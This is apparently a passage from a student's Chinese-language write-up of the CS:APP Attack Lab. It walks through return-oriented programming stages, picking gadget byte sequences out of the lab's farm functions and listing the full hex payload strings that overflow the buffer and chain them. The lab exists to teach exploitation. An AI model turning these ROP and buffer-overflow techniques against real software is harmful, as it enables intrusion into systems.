

答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 2b 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```

验证通过



> 注：实际上这个方案并不在建议给的条件内，即用两个gadgets，在start_farm和end_fram范围内。

#### 方案2：找一个寄存器暂存，然后存入rdi

通过查找可行的字节码，遍历查找红框下所有可能数据





找到了这段字节码，后面紧跟着c3，执行ret操作。符合条件，故拟定以下操作。

```assembly
pop rax
mov rax rdi
ret  #touch2
```

首先是找到addval_2代码

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

重点在`58 90 c3`这段，先进行``pop rax`， 然后90是一个nop操作，最后c3执行ret弹栈。位置是`0x4019ab`

然后是addval_273这段

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```

`48 89 c7 c3`进行`mov rax rdi`，最后ret。地址为`0x4019a2`

最终栈结构如图



最终答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

验证通过



### lever 3

最后一个看介绍都感觉很难，果断参考答案来做。
**addval_190**

```assembly
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

```

```assembly
0x401a06 48 89 e0    #movq %rsp,%rax
0x401a09 c3          #ret
```

**setval_426**

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

```assembly
0x4019c5 48 89 c7     #movq %rax,%rdi
0x4019c8 90           #nop
0x4019c9 c3           #ret 
```

**add_xy**

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq  
```

```assembly
0x4019d8 04 37   #add 0x37.al
0x4019da c3      #ret   
```

**最终结果：**

```assembly
// address is 0x401a06,execute a part of addval_190
movq %rsp,%rax
ret
//address is ox4019d8,execute a part of add_xy
add 0x37,%al
ret
//address is 0x4019c5,execute a part of addval_426
movq %rax,%rdi
ret
```


由上，可以知道攻击序列为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 35
39 62 39 39 37 66 61 00
```



### 参考材料

[图文并茂-超详解 CS:APP: Lab3-Attack（附带栈帧分析）](https://zhuanlan.zhihu.com/p/339802171)

[深入理解计算机系统attack lab](https://blog.csdn.net/weixin_41256413/article/details/80463280)

